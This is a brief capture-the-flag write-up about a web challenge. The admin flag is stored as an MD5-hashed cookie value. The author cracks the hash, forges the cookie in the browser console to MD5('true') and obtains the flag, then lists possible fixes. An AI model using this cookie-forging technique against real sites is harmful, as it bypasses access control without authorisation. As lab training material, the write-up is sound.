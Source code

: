# Unprotected Admin Cookie

## Vulnerability

Looking at the page's cookies, we can see:
```
> document.cookie
< 'I_am_admin=68934a3e9455fa72420237eb05902327'
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
68934a3e9455fa72420237eb05902327:false:MD5
```

So by settings the `I_am_admin` cookie value as `md5('true')` a.k.a `b326b5062b2f0e69046810717534cb09`, we get the flag after a page reload.
```
> document.cookie = 'I_am_admin=b326b5062b2f0e69046810717534cb09'
> window.location.reload();
< Good job! Flag : ...
```

## Possible Fix

- Use an opaque PHP session to store this information.
- Use a structured token (e.g. a JWT) for authentication and authorization.
